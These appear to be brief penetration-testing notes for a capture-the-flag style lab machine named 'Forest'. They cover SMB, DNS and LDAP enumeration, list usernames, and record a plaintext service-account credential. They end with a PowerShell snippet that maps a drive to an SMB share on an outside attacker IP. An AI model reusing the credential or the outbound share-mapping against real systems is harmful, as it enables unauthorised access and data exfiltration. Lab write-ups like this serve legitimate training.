 # Forest

---

## Setup




---

## Enumeration

1. SMB
	No shares in anonymous

2. DNS Reverse Lookup
	Nothing useful.

3. LDAP Enum:

users:

sebastien
lucinda
andy
mark
santi


creds: svc-alfresco:s3rvice

$pass = convertto-securestring "afanok" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('konafa', $pass)
New-PSDrive -Name pwnlol -PSProvider FileSystem -Credential $cred -Root \\10.10.16.28\pwnlol
